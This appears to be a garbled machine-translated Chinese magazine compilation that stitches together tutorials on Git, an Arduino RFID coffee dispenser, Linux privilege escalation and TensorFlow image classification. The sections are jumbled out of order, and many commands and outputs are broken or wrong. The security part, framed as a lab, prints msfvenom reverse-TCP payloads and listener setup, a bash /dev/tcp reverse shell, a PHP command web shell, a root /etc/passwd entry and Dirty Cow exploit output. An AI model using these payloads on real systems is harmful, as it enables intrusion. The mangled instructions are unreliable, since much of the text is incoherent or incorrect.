我们现在有一个包含 README 文本的本地文件。新仓库以 UNIX 格式存储文本文件。在我们执行任何操作之前，让我们此文件推送到在线仓库。当我们这样做时，通过运行以下命令检查我们本地分支的状态是好的：

```bash
wget https://github.com/files/158-158-0.txt -o novel.txt
sed -i 's/.*/novel'
git status
```

我们应该看到以下内容：

| 在 master 上 | 你的分支领先 'origin/master' |
| :--- | :--- |
| 未跟踪：使用'git add <file>' 来包含将要提交的内容 |
| novel.txt |

这告诉我们 `novel.txt` 文件尚未被 Git 跟踪。我们通过运行以下命令来解决这种局面：

```bash
git add novel
```

如果我们再次运行 `git status`，我们会看到 `novel.txt` 现在标记为“新文件”。下一步是提交我们的更改。提交是我们每有大量更改时定期执行的事情。在我们将更改推送到在线仓库之前，我们无法推送任何修改。

### 教程

## 核心 Linux：Git

## Gists

如果你使用 Gists，你可能会遇到列表功能，它们通常托管在 `github.com` 上。这是一种特殊的仓库类型，通常用于与他人共享代码片段，或存储代码供自己以后使用。使用 Gists 进行存储的用处是它们随时随可用，因为一个 gist 实际上是一个具有完整版本历史的仓库。

在我们提交它们之前，但我们想在推送更改之前进行多次提交。提交需要我们添加一条详细说明更改的消息，因此在每次做出更改的任何时候进行提交都是一个好主意，而不会浪费时间。这次，运行：

```bash
$ git commit -m 'added the original text of the novel.'
```

来提交我们最近的更改。如果我们现在运行 `git status`，会看到新文件 `novel.txt` 不再被标记为新文件，因为它是提交的一部分。然而，现在我们的更改已经比 `origin/master` 领先了一个提交。这是因为我们在本地分支上做了更改，但尚未将其推送到服务器。

在推送到服务器之前，运行以下命令是一个好主意：

```bash
$ git push
```

此命令将获取并拉取在线分支上发生的所有更改。如果其他人修改了原始文件，我们希望获取这些更改并将其合并，以在推送我们的更改之前避免可能的冲突。由于没有其他人在仓库上工作，唯一要做就是让我们的本地保持与远程保持**同步**。

我们使用以下命令推送我们的更改：

```bash
$ git push -u origin
```

系统会提示我们输入 GitHub 用户名和密码。提供这些信息后，git 会发送文件。我们刷新 GitHub 上的仓库页面，看到新文件 `novel.txt` 现在出现了，因为我们重命名了 **README**。

> $ git commit -a -m 'Changed Emma's age to 17. - A teenage girl.'

`git commit` 的 `-a` 标志告诉我们将所有新更改添加到当前提交中。这让我们省了在像之前那样在运行 `git commit` 之前运行 `git add`。然后我们可以运行 `git push -u origin master` 来推送更改。

第二个作者决定对第一段进行更多更改。在仓库的本地副本中，`novel.txt` 文件现在将第一段替换为以下内容：

> 所以，你可能在想：“随便吧，这就像诺基亚广告！”实际上，我作为一个女孩有一个正常的生活。

运行 `git commit -m 'Changed the first paragraph.'` 来提交这些更改。在推送到服务器之前，让我们运行 `git pull` 来从仓库获取任何新更改。当我们运行此命令时，将得到以下错误：

# CONFLICT (content): novel.txt 中存在合并冲突

自动合并失败；请修复冲突并提交结果。

我们收到这条消息是因为我们当前的提交包含了修改，这些修改无法与自我们上次推送文件以来主分支上所做的更改合并。要获得修复，我们需要查看发生了什么，因此在文本编辑器中打开 `novel.txt`。当我们打开它并合并本地时，我们看到 git 用标记标记了文件，显示两个分支中的冲突。我们可以选择如何解决它们。Git 显示了两个版本之间的相关部分，Git 放置了

```
<<<<<<< HEAD
```

后面是当前仓库中的文本，然后是 `=======`，然后是带有指示该特定提交是我们的哈希值的文本。

由我们的个人合作者来决定

# 管理冲突

Git 的一大强大之处在于它允许我们在两个人对同一个文件进行更改的情况下处理合并冲突。为了导航此处，我们导航到第一次克隆仓库的另一个地方的新目录 —— 并回到我们使用的那个提交。

你可能需要创建一个仓库的新副本，允许我们模拟两个独立作者提交之间的合并冲突。

第一个作者决定通过在文本编辑器中更改 `novel.txt` 文件中角色的年龄来更改书籍，并修改第 48 行的二十一岁，使其其变为十八岁。

让我们推送到在线仓库。从运行以下命令开始：

合并冲突处理起来可能棘手，但 git 让处理它们变得尽可能顺畅。

- 使用 

来处理合并；Git 无法决定最佳行动方案是什么，所以你。你可能想在两个段落中选择一个，或者通过更现代的引入方式，但更改你所做的更改，保存并关闭文件，然后运行 `git commit` 来提交更改，随后运行 `git push -u origin master` 推送到远程仓库。

现在，如果我们回到第一个分支并运行 `git pull`。Git 现在将获取分支的新、合并后的版本并将其合并，尽管该分支的内容与在线内容冲突。原因是第一个分支现在比此分支领先了一个提交——也就是说，它包含了比你第一个本地分支中更更新的版本。

# 使用 Git 撤销

现在假设我们第二天醒来时，新的“现代”开场模式并不适合这团乱麻，我们想要回到项目的之前的版本。要做到这一点，我们应该首先运行以下命令。

# 当我们正在一个项目并最终产生了我们不想要的更改时

```bash
$ git log
```

此命令打开一个文本查看器，显示有关每个已提交的信息。我们使用方向键向上向下导航，使用 q 退出。如果我们想撤滚特定的提交以撤销其更改，我们使用：

```bash
$ git revert <commit-hash>
```

这将创建一个与指定提交相反的新提交。如果我们想撤销自某个提交以来的所有更改，我们使用：

```bash
$ git reset --hard <commit-hash>
```

这将分支指针指向指定的提交，丢弃所有本地更改。小心，这是永久的。

### 教程

## Arduino：咖啡机

### 第一部分

## Arduino：制作你自己的咖啡机

使用 RFID 卡在工作场所建立一个（几乎）自动且无的咖啡俱乐部

Alexander Smith 是一位计算物理学家。他向研究生教授 Arduino，并鼓励人们手动进行实验室工作。Arduino 不仅仅是为了娱乐和游戏 —— 有时在你的职业生活中也需要它们。它们可以用于实验室测量、办公室厨房的咖啡。如果你想为一家不为员工提供咖啡的公司工作，你可能会遇到一个“咖啡俱乐部”。这是一个很好的系统，通常情况下运行良好。其显而易见的优点包括无需找零、不再需要携带现金或硬币，以及确定哪些口味最受欢迎。

让他们选择哪种咖啡豆。在下一期中，我们将涵盖框架的制造、使用电机释放咖啡以及检查是否真的发放了咖啡豆。

## 资源

- Arduino Mega

- 焊铁炉

- RFID 套件 (`RCF522-AN`)

- 树莓派（或其他计算机）

- Python

用于 FIFA 世界杯以及世界各地的大学。然而，例外情况是——这些卡片中的一些（如 Crypto-1）已经被破解，因此像 Mifare Classic 这样的卡片在安全性至关重要的应用中已不再流行。尽管如此，仍然有廉价、易于使用的卡片和读取器，只需几英镑就能买到。无论你使用哪种卡片，通过 Arduino 或树莓派，你仍然读取 ID 而无需担心数据。


## 向读卡器焊接引脚


低成本 RFID 套件以空白 RFID 卡片、钥匙扣、读卡器模块（以及希望有一排排针）以及处理电源和信息传输的电路和芯片的形式交付给您。在教程中，我们正在使用 `MFRC522` 模块。卡片底部线性排列着一小组八个孔。你需要连接到读卡器才能开始使用它。在之前的教程中，我们避免了焊接；但在情况下，你必须拥有电烙铁和一些焊锡以便将引脚连接到读卡器。

首先通过让连接器引脚穿过读卡器的孔来焊接读卡器——你希望长端进入 `Arduino`，短端穿过读卡器。将电烙铁按在带有引脚的金属而不是孔上，让焊锡流进引脚和孔之间的间隙。它应该熔化并在引脚周围形成一个圆角。一旦连接形成，你就可以处理其余引脚了。对于不熟悉焊接的人来说，最好使用无铅焊丝，这样你的手就不必吸入任何无铅焊锡烟雾——如果你有一点通松剂，把它远离你的脸吹开。

上述读卡器套件可以在网上廉价购买，并能与各种卡片配合。

对于本教程，我们正在使用 `Arduino Mega`，它在引脚 `50` 到 `53` 上有 `SPI` 接口。在 `Uno` 上，引脚是 `10` 到 `13`。在 `Leonardo` 和 `Micro` 上，你将必须使用 `SPI` 引脚，这是几乎所有 `Arduino` 都要用的方法。对于 `Arduino Mega`，`50` 号引脚是 `MOSI`，`51` 号引脚是 `MISO`，`52` 号引脚是 `SCK`，`53` 号引脚是 `RST`。这些引脚在 `RFID` 读卡器上有清晰标记——尽管 `SS` 会标记为 `SDA`——并将它们连接到你 `Arduino` 上对应的引脚。你还应该连接读卡器上的地和 `3.3V`，它们连接到 `Arduino` 引脚上。读卡器上还有一个重位引脚，需要连接到

## 已发行超过 100 亿张 RFID 卡和 2.6 亿个读取器

## 连接 SPI

使用一组跳线，将读卡器的引脚连接到读卡器的串行外接口 (`SPI`)。你将使用 `SPI` 库在两个微控制器（`Arduino` 和 读卡器）之间进行通信，或者通过使用软件数字引脚。确保这些引脚连接到读卡器至关重要。它们在不同板之间的位置并不总是相同的——查看 `Arduino`（`Arduino`），它告诉其他（读卡器）它是从设备（`SCLK`）。选择引脚，然后 `MOSI`（`MOSI`，从机输入）、`MISO`（`MISO`，从机输出）和 `SCK`（串行时钟）来处理定时。当设备被要求作为从设备操作时，它连接到 `MOSI` 线并使用 `MISO` 进行响应。如果多个设备必须共享同一通信线，则只有在主设备告诉它们时才监听。

## 编写你的 Arduino

现在 `RFID` 读卡器已连接，你可以快速开始从某些 `RFID` 卡片中读取数据，包括 `Mifare Classic`。此时，你需要下载 `MFRC522` 库。可以通过 `Arduino IDE` 中的 `Sketch (脚本)` > `Include Library (包含库)` > `Manage Libraries (管理库)` 来完成。

或者是否向用户提供咖啡。本教程其余部分的目的是确定用户是否为俱乐部的成员，其 ID 是否关联了足够的资金，然后如果用户订购了咖啡，在咖啡机出出后扣除预设金额。起初，人们可能会考虑使用数据库来管理用户及其账户，像 `Python` 这样的语言（我们在之前的教程中见过）也可以用于与 `Arduino` 通信——实现这一目标有许多方法。`Python` 甚至可以与 `MySQL` 数据库集成，这使我们能够创建一个让用户管理自己账户的数据库。如果你对此感兴趣，我们将尝试这种方法，但这稍微超出了本教程的范围。

通过 `USB` 将树莓派连接到 `Arduino`：需要一个适配器转换为 `Micro-USB`。随后，`Pi Zero W` 即可连接到 `USB` 并为 `Arduino` 供电。我们选择 `Pi Zero W` 是是因为它的成本低且内置了 `Wi-Fi`，因此我们能够进行远程登录。



## 检查用户

我们现在可以开始创建俱乐部成员的伪数据库并添加我们的账户。这可能不是管理俱乐部最有效的方法，但我们只需要创建一个专门的文件夹来存储账户。每当 `RFID` 卡在读卡器上进行切换时，

> 当 `Pi` 启动时，它可以从 `UID` 文件夹中形成一个字典

当用户在读卡器前刷卡时，`Pi` 将将 `UID` 哈希化为字符串并检查字典以查看其是否存在。如果 `ID` 不存在，脚本将使用哈希后的 `ID` 作为文件名创建一个新条目，用户随后可以手动输入他们的姓名。我们从这个哈希 `UID` 文件夹形成字典，将 `UID` 映射到文件内容——卡片名称。如果它已经存在于字典中，脚本可以将其映射到一个用户名、一个账户文件——然后找到他们的账户中还有多少钱，`Pi` 就可以允许 `Arduino` 出咖啡。

上方：取决于型号，连接到 `Pi` 可能需要 `USB` 适配器

`Pi` 可以通过以卡片的 `UID` 作为文件名创建一个新文件来记录详情，然后设置一个默认金额。为了通过串口发送消息，你可以使用 `Python` 脚本并使用以下脚本与 `Arduino` 初始化连接：

```
arduino = serial.Serial(port)
```

并且你可以读取传入的消息并将其存储为字符串，

为了更高的安全性，使用 `UID` 作为文件名似乎是个坏主意——至少我们应该对它们进行哈希处理。此外，能够在无需机器电脑旁放置读卡器和 `Arduino` 的情况下手动为账户充值以确定谁拥有哪个账户也是好的。相反，我们可以利用 `Python` 字典将人类可读的文件名与匹配的哈希 `UID` 关联。

## 等待输入，提供反馈

一旦 `Pi` 检测到用户及其账户中的金额，就需要通知 `Arduino`，这样它就知道可以出咖啡了。如果你想更进一步一点，让用户知道账户里有多少钱，`Pi` 可以将余额发回 `Arduino`，`Arduino` 随后可以在 `LCD` 屏幕上显示用户剩余的金额。

剩下的要做的就是等待按下按钮——我们以前做过很多次——用户可以按下并同意出售咖啡。这不需要添加中断来完成；大部分过程（在两台机器之间）都将涉及等待消息的发送。

`Arduino` 发送 `UID`，`Pi` 发送余额，`Arduino` 处理咖啡选择等工作。处理错误方面还有一些工作需要完成，可能还需要实现超时，但你将处于设计物理咖啡机并考虑咖啡池投放机械结构的良好位置。我们将在下期讨论这些主题以及其他几个话题。

www.luxuker.com 43


### 教程

### 计算机安全

### 安全：权限提升技术

学习攻击者如何通过利用配置错误的服务、内核漏洞和

获取 root 权限

因此，我们系列教程中的教程一直在处理各种不同的技术，以利用已知漏洞来获取系统的 root 权限。请注意，你不会轻松获得 root 权限。因为其中某些服务可能运行在非特权用户账户下（例如，`Apache` 的 `'www-data'`）。作为渗透测试人员，我们将在整个过程中协助你。对于某些人来说，权限提升是一门艺术，我们也赞同这一观点。无论你的想法如何，都可以通过多种方法实现权限提升，例如利用内核漏洞或利用软件错误。你可以使用一些工具（资源）。利用本地内核来快速获取 root 权限很有诱惑力，但要小心，因为这些技术可能会导致系统不稳定——

而且有时它们甚至可能导致系统崩溃。话不多说，你准备好深入研究权限提升技术的世界了吗？请继续读下去！

## 通过 Ring 0 获取 root

我们已经提到过通过内核漏洞获取 root 是危险的，所以现在是演示的时候了。从 `ubuntu.com` 下载 `Ubuntu 16.04 LTS` 并将其安装在双 CPU 的虚拟机中。添加一个“仅限主机”网络与主机（`VirtualBox`）通信。访问 `http://bit.ly/ud_vb` 查看选项。运行 `apt-get install linux-image-4.4-0`，该内核已知有一个 `'After-Free'` 漏洞。重启进入此内核——按下 `GRUB` 菜单。如果你已经以非特权用户连接到机器，请在安装时下载更新。


## Toni Castillo

`Toni` 拥有软件工程学位和计算机安全硕士学位。他在加泰罗尼亚的一所公立大学担任 IT 支持工作。阅读他的博客 `http://upc.es`

## 资源

- 渗透资源 `http://bit.ly/ud_post`
- Metasploit 本地利用 `http://bit.ly/ud_suggest`
- LinEnum `http://bit.ly/ud_enum`
- Linux 利用 `http://bit.ly/ud_suggest2`
- 利用数据库 `http://bit.ly/ud_exploit`
- Vulners 扫描器 `http://bit.ly/ud_vulners`
- Lysis `https://cisofay.com`

```
ubuntu@ubuntu:~$ sudo -l
[sudo] 用户 ubuntu 的权限：
  (ubuntu) 可以在 /usr/bin 执行任何命令
  (root) NOPASSWD: ALL

获取更多信息，请访问 https://ubuntu.com/
  内核版本: 4.4.0-104-generic (x86_64)
  编译于: Mon 19 22:14 UTC 2018
  Ubuntu: 4.4.0-104-generic x86_64

### 本地枚举 (CVE-2016-5195)
ubuntu@ubuntu:~$ ./exploit

[+] 权限提升
[+] 目标内核: 4.4.0 LTS
[+] 漏洞: CVE-2016-5195 (Dirty Cow)
[+] 正在运行利用...
[+] 成功！您是 root。
root@ubuntu:# id
```

在别人之前审计你自己的电脑（不请自来的！），这就是

## NTFS-3 漏洞

你将寻找可能的漏洞利用。在你的电脑上安装 Metasploit（- `bit.ly/ud_night`）并生成适用于 Linux x64 的载荷：`msfvenom -p linux/64/reverse_tcp --L YOURIP -L YOURPORT -f elf > mine`。将其上传到虚拟机，使用 `msfconsole` 设置并运行它：`chmod +x mine; ./mine`。在你的电脑上，运行带有新处理器的 `msfconsole` 来管理此类会话。

识别漏洞并不总是那么容易的——

2017-02-01 00:00

3.6

ID: NTFS-31182-1

类型: 漏洞

报告者: Ubuntu

修改于: 2017-02-01 00:00

描述

John Horn 发现 NTFS-3G 在使用现代化模式时未正确过滤环境变量。本地攻击者可以通过加载任意内核模块导致此问题。


```
msfconsole -q "use exploits/linux/handler;
set PAYLOAD linux/x64/reverse_tcp;
set LHOST YOURIP;set LPORT 4444;
set ExitSession true;run -j"
```

一段时间后，将建立一个新的会话。与之交互：`sessions -1` 查看你让攻击者在系统中立足点。接下来，通过获取内核版本和发行版继续


## 你可以使用 Linux Suggester 在你的电脑上判断它们是否存在漏洞

`Metasploit` 包含了一系列利用模块。如果你不是特权用户，其中一些对于收集信息非常有用，例如凭据文件和软件版本。其他的将在你开始后将帮助你完成更多任务：`Metasploit`、`SSH` 投毒等... `http://bit.ly/lkut_post`

其发行版；从你的反向连接会话生成一个新的 shell；首先。执行 `uname -a -lsb_release -a`。在你的电脑上，检查利用库（资源）并寻找可能的内核，使用 `CVE` 和 `PoC`：

获取 root 本地利用

处理本地利用是非常危险的，因此寻找系统中已安装的漏洞软件包是一种更安全更可靠的方法。重启你的虚拟机并让启动。检查 `ntfs-3g` 软件包：`apt install ntfs-3g-2015.3.1418-build`。现在运行 meterploit 来利用漏洞：`exploit -a`。与此新会话交互：`sessions -1 < ID`。获取本地目标以确定 `Ubuntu` 上是否安装了漏洞软件包。运行新会话，生成新 shell。最后，获取安装包列表并将输出重定向到终端文件。

```
dpkg-query -f='${Package}: ${Version} ${Architecture}' - > packages.txt
```

通过运行 `Ctrl+C` 终止过程，然后下载-packages.txt。现在将其内容复制到剪贴板，访问 `https://ubuntu.com`，搜索 `'Ubuntu's'` 并找到你需要的软件包。将剪贴板内容粘贴到下一个标签页。“下一步”将向你显示两个漏洞软件包：`asdf-dhcp-kernel` 和 `ntfs-3g`。第一个软件包容易受到内核的拒绝服务攻击，第二个是权限提升漏洞：具有大多数操作系统的本地利用的利用框架。你可以


### 教程

# 安全

通过执行 `ls -1 /spt/exploits-framework/embedded/framework/modules/exploits/linux/local/` 获取 GNUX/Linux 本地漏洞列表。如你所见，有一个针对 nfts-3g 的可用利用程序。使用此模块，设置你的负载（一个 stallpreter meter reverse tcp 负载），并设置 `LHOST` 数字，让虚拟机连接到你的端口 `4444`。

## Windows 中的权限提升

Even Paths 已经开发了一个 Python 框架，用于攻击和缓解绕过 UAC 的众许多技术：`UAC-a-module (https://github.com/EvenPaths/UAC-a-module/)`。该框架实现了以下技术：

`apache2 libapache2-mod-php.` 接下来执行 `/var/www/html mkdir /var/www/html/scripts`。将以下行添加到 `/etc/apache2/sites-available/0000-default.conf`：

```
use exploit /linux/local/nfts3g_priv_exec
set PAYLOAD x64/meterpreter_reverse_tcp
set LHOST <your_ip>
set PORT 4444
```

```xml
<Directory "/var/www//*">
Allow order deny
Deny from all
</Directory>
```

重启 `Apache`：`/etc/init.d/apache2 restart`。现在创建一个名为 `shell.sh` 的新文件：

```bash
#!/bin/bash
rm -rf /tmp/
```

由于这是一个本地漏洞，它需要已建立的会话。使用你当前会话的 ID：`set SESSION`。如果你将负载上传到目标计算机，并且它是具有权限的工作目录：将 `PERMS` 设置为你当前登录的用户。现在，在执行利用程序之前，确保检查其是否存在漏洞。最后，执行利用程序以获取 root：在你的电脑上运行 `exploit`，metploit 将开始交互。

将此文件保存为 `/var/www/shell.sh` 并执行它：`chmod +x shell.sh`。最后，确保你是 `/var/www/html/` 的所有者。在 `/etc/passwd` 中添加以下条目：`user=PASSWD=:root:/bin/bash`。脚本将在某个时刻由 web-data 执行。现在你可以通过访问网站或点击 `<Directory>` 链接运行此脚本。在你的电脑上，保持所有已建立的会话开启。当你获得会话后，列出你的工具：`ls -la`

## 使系统不稳定甚至崩溃的内核漏洞

现在，假设你是一个攻击者，已经获得了一个非特权权限提升会话。生成一个新的负载：`msfvenom -p php/meter_reverse_tcp LHOST=<your_ip> LPORT=4444 -o shell.php`。将文件上传到目标并运行。在你的电脑上，使用以下命令更改负载：`http /var/www/html/shell.php`。现在运行：`-j`。使用浏览器通过访问 `http://YOUR_IP:PORT` 访问上传的负载。你将获得一个与之前权限相同的 meterpreter 会话。

如果立即获得了 root：直接使用 `vulniscan-scanner`（参见资源 2）并直接在目标机器上执行。你也可以从你的非特权会话后台运行它。回到之前的非特权会话：`session -ID <10>`。现在设置 shell 并下载扫描器：`https://github.com/vulgroup/vuln-scanner/master.zip` 并解压：`unzip master.zip cd vuln-scanner/ LinuxScanner.py`。你将获得带有网页端的漏洞包列表。

## 获取 root sudo

最近可能一直在寻找配置不当的 sudo 和输出 sudo：我们见过很多，有时这仅仅是一个简单的命令！大多数系统需要 sudo 来允许非特权用户运行特权命令。这些命令可以在不输入密码的情况下执行。对于下一个示例，在你的虚拟机上安装 Apache 和你的 PHP 模块：`install`

是的，我们知道：metasploit 让利用看起来像小孩子的游戏一样！

| 目标 | 服务 | 状态 | 备注 |
|---|---|---|---|
| 192.168.1.100 | http | 开启 | 列表 |
| 192.168.1.101 | ssh | 开启 | 列表 |


由 `www-data` 所有，使用 `Ctrl+C` 终止此通道并添加比 `rm -rf` 更多的内容轻易如，使用 `edit` 命令编辑此文件：`edit _scripts/purge.sh`。现在添加以下行将 `<IP>` 替换为你的 IP。

你可能哪些通配符；你可能经常使用它们。我们大多数人在如果使用不当时，会发生糟糕的事情。事实上，事情可能会变得不可控（参见 http://bit.ly/lud_wildcards）。让我们想象一个系统管理员创建了以下脚本：

### 接下来做什么？

```bash
# /bin/bash
cd /var/www/html && cd ~/
data-data: *
exit $
```

### 使用 Any.Run 分析恶意变体

```bash
/bin/bash < /bin/bash > /dev/null/tcpcp/udp/IP4/<IP>:4444 2>&1 &
```

保存它（！）。在后台运行并使用反向负载启动新的监听器；`set PAYLOAD linux/linux/4444`；执行它。现在回到你的非特权会话 - `sessions -I` 产生一个新的 shell（如果不使用）`sudo /var/www/scripts/purge.sh`。将建立一个新的反向 TCP 会话；检查此通道（`Ctrl+C`）并后台运行脚本。最后，使用新会话建立：`sessions -I` 可以运行命令

## 1. 创建你的账户

访问 https://any.run/register 并创建一个新账户，使用免费计划可以让你访问 Windows 7。你可以使用 Linpeas 发现系统中的配置不当漏洞，使用非特权或 root 运行脚本。

## 2. 上传恶意二进制文件到 sandbox

将此文件保存到 `/local/bin/bind-web.sh`。在虚拟机上执行它：`chmod +x /local/bin/bind-web.sh`。获取你的程序并发送到 sandbox。脚本添加到 cron 以每分钟执行一次；将其添加到 `/etc/crontab`：

```
* * * * * /root/local/bind-web.sh
```

回到非特权会话，在 `/var/www/html/` 创建一个新文件 `ref.php` 以 `www-data` 为所有者。在虚拟机上打开新终端，执行命令，系统将提供有关网络连接、文件系统等有用信息。你可以随时与系统进行交互。

```php
<?php
$shell = $_GET['cmd'];
if($shell) {
  system($shell);
}
?>
```

现在为 `/etc/shadow` 保存符号链接：`ln -s /etc/shadow /etc/shadow`。`/etc/shadow` 现在由 `www-data` 所有而非 root。回到非特权会话，下载 Linpeas：`cd _scripts; wget://github.com/Linpeas/master/linpeas.sh; chmod +x linpeas.sh`。最后，运行并将输出管道到文件：

## 4. 查看

点击左侧的图标查看订阅列表。选择你感兴趣的描述；你将看到分析的视频。

## 漏洞是确定电脑上安装了哪些漏洞包的工具

`/linpeas.sh > r.txt` 使用 `Ctrl+C` 运行此命令下载文件 `r.txt` 到你的电脑：`_scripts/r.txt`。现在查看，搜索 PWNED？

## 5. 升级你的账户

如果你愿意，可以升级免费计划。访问 https://any.run/plans 并选择最适合你的，在编写时不可用。等待 shell 执行。现在！`/etc/shadow` 现在由 `www-data` 所有，因为特殊文件已上传到 `/var/www/html` 已创建为扩展文件；检查 `www:www-data`

www.linuxuser.co.uk

### 教程

## TensorFlow: 图像识别

# TensorFlow: 识别和分类图像

**在深度学习示例中使用开源神经网络的力量**

神经网络自人工智能之初就一直作为一种想法存在。问题在于，对于软件开发者来说高效实现这些技术非常困难，直到 Google 为其内部 Google Brain 项目开发了一个库。该项目于 2015 年发布，在短短几年内，它就找到了处理卷积神经网络、音频识别和图像识别等的方法。

为了保持你的 Python 环境整洁，你应该创建一个虚拟环境，在其中安全地安装 TensorFlow。你可以通过以下命令实现这一点：

```
virtualenv --site-packages -p python3 tensorflow
```

这将创建一个名为 `tensorflow` 的子目录下的虚拟环境，你可以通过加载激活脚本来安装 TensorFlow。

```
source ~/tensorflow/bin/activate
(tensorflow)$
```

你的命令行提示符应该变为上面所示的新。你现在可以将 TensorFlow 安装到虚拟环境中。由于其流行，TensorFlow 已移植到许多不同的平台——包括移动设备、网页和操作系统。在这篇文章中，我们将研究如何使用 TensorFlow 进行图像识别和分类。我们将研究如何在你机器上安装它，以及如何创建一个基础设置以便进行某些图像处理。

```
pip3 install --tensorflow
```

这安装了 TensorFlow 库的 CPU 版本。然而，它的大部分处理可以交给 GPU 以获得更快的结果。如果你有 NVIDIA GPU，可以使用以下命令安装所需的 CUDA 支持包和 TensorFlow GPU 版本。

## 安装 TensorFlow

```
sudo apt-get install cuda-line-tools
source ~/tensorflow/bin/activate
pip3 install --upgrade tensorflow-gpu
```

第一步是在你进行图像分析工作的机器上安装 TensorFlow。对于大多数平台，你应该能够使用 `pip` 安装它。由于我们在这里没有空间专门讨论一个平台，假设你正在使用 Debian-Linux 发行版。假设如此，你需要使用以下命令安装工具：

```python
import tensorflow as tf
hello_test = tf.constant('Hello from TensorFlow')
sess = tf.Session()
print(sess.run(hello_test))
```

你应该通过运行以下代码行来验证一切都安装正确：

你将获得以下输出：

Hello from TensorFlow!

TensorFlow 的核心概念是图。数据被导入到变量中，元素之间存在某些关系。还有一系列过程

Joey Bernard

在日常工作中，Joey 帮助单元级的研究人员和学生在超级计算机集群上设计和运行 HPC 项目。

## 资源

+   -TensorFlow

www.tensorflow.org

+   -示例模型

https://github.com/tensorflow/models

需要应用到数据上。所有这些过程和关系组合成一个数据流图；TensorFlow 然后充当引擎，遍历图并执行所有定义好的操作。这些功能可以通过低级 API 访问，但大多数人不需要处理许多细节，有一个高级级 API 提供了导入函数来管理常见的数据格式，并通过许多称为 `estimators` 的函数来创建数据结构。这些估计器创建了模型及其底层的图，因此你只需要简单运行估计器即可完成所需的数据处理。



神经网络由一个输入层、若干中间层和一个输出层组成。

## Inception v3

TensorFlow 显示其用处的任务之一是图像识别，人们已经做了大量工作来提高其性能。当你开始开发自己的算法时，所做的工作值得你花时间研究。图像识别估计器之一是 Inception，其第一个版本。

Inception 模型使用 ImageNet 数据集进行训练，该数据集于 2012 年发布，作为测试和比较图像识别系统的标准集。它包含超过 1400 万张经过人工标注的图像，以识别图中的物体；有超过 200 个类别，每个类别如“根”或“蘑菇”，并包含隐藏标签。幸运的是，你有一个可以下载并运行的完全训练的模型。如果你安装了 TensorFlow，可以通过以下命令从 GitHub 仓库下载 Inception：

如果你已经下载了模型，可以使用命令行选项 `--model_dir` 向脚本指定它，以确定其存储的目录。要分类你的图像，可以使用命令行选项 `--image_file` 导入它们。如果你想使用模型的默认图像，可以使用以下命令运行：

如你所见，无论置信度分数或你在哪里使用，匹配的前五项结果都是 TensorFlow 认为你可能是的什么。如果你愿意，可以使用命令行选项 `--top_k_predictions` 修改返回结果的数量。

```
$ git clone https://github.com/tensorflow/models.git
cd models/images/imagenet
```

## 使用 TensorBoard 可视化模型

在处理深度模型时，你也可以了解实际上发生了什么。你开发模型的人应该使用 TensorBoard 来帮助可视化正在发生的学习过程。为了使用它，你需要生成代码摘要数据，然后这些数据可以被 TensorBoard 查看并为你提供详细信息。

```
python .classify_image.py
giant panda, panda, panda, bear,
alligator, mexican (score = 0.8197)
indri, indri, indri
brevicudatus (score = 0.0079)
leopard, panda, panda, bear, cat,
cat bear, Alurgan (score = 0.00296)
custard apple (score = 0.00147)
starfish (score = 0.00017)
```

## 调整网络

虽然 Inception 模型很棒，但它的设计非常灵活，能够识别一系列类别。但你可能希望模型在识别更小的物体子集方面更好。在这种情况下，你需要删除 Inception 模型的大部分，并仅替换神经网络的最后一层，以特定的特定的图像类别。在需要下载的 TensorFlow GitHub 仓库中，有一个 Python 脚本示例了如何使用以下示例代码运行：

在你的文件夹中，将运行 Python 脚本 `classify-image.py`。假设你以前没有运行过这个脚本，并且在某个时候下载了模型数据，它将从开始下载 `inception-2015-12-05.tgz` 文件以便获取模型。

## TensorFlow 图像识别教程


## 使用 TensorFlow Mobile

当你训练好一个模型并在某些项目中使用它时，你可能需要考虑在使用 TensorFlow Mobile 时在性能不足的硬件上表现如何。

此脚本获取 `_my_images` 目录中的所有图像，并使用每个图像保留模型。这种简单的重训练过程可能需要 30 分钟或更多。如果你想对模型进行完整训练，可能需要大量的小时。还有其他选项，例如选择不同的数据集。这些可能会产生更好的模型，但速度没那么快。如果你正在为低功耗设备（如手机应用）编写程序，你可能会决定使用这种。

然后训练一个新层，执行起来可能相当繁琐——但你可以使用名为 TF-Slim 的实用封装器来改变过程。如你所见，我们在上面的材料中仅以最关键的方式接触了必要的代码。我们不需要深入研究 TF 代码来获取完成任何工作所需，事实上，这是人们对 TensorFlow 广为人知的舒适之处。

> 在 TensorFlow 中工作时需要编写 TF-Slim 样板代码已封装并为你处理好了

在数据上进行训练对大多数人来说可能很好，但在某些地方你可能需要控制。幸运的是，你可以手动管理重训练过程。第一步是加载模型的数据：以下代码允许你执行：

为了帮助你理解为什么可以使用 TF-Slim 封装层，以最小化你使用 TF-Slim 封装层所需的代码，为了完成任何工作，你可以通过以下代码使用它：

```
graph = tf.Graph()
with graph.as_default():
    with tf.io.GFile('classify_image.pb') as f:
        graph_def = tf.GraphDef()
        graph_def.ParseFromString(f.read())
tf.import_graph(graph_def, name='')
```

这加载了模型并创建了一个新的图。该图由若干层组成，最终指向输出。

- tensorflow.contrib.slim as slim

这个最终层是做出你认为图像是什么的分类和 softmax。此时，你可以处理你的特殊图像以创建一个新的层。

在 TensorFlow 中工作时需要编写的样板代码已封装并为你处理好了。在 TF-Slim 中，模型是由层、变量和范围定义的。在 TensorFlow 中，每个变量都需要指定它在哪个设备上存储和使用。TF-Slim 封装了这一切，使其简化为使用单个函数。例如，以下代码使用一系列张量创建了一个变量。

- regular_variables_and_model_variables = slim.get_variables()

```
my_var = slim.variable('my_var', shape=[20, 1], initializer=tf.zeros_initializer())
```

获取模型中的变量列表也简化为：

在 TF-Slim 下构建层也大大简化。在 TensorFlow 代码中，创建一个卷积层需要七行代码。在 TF-Slim 中，这缩减到只有两行代码。

```
input = -
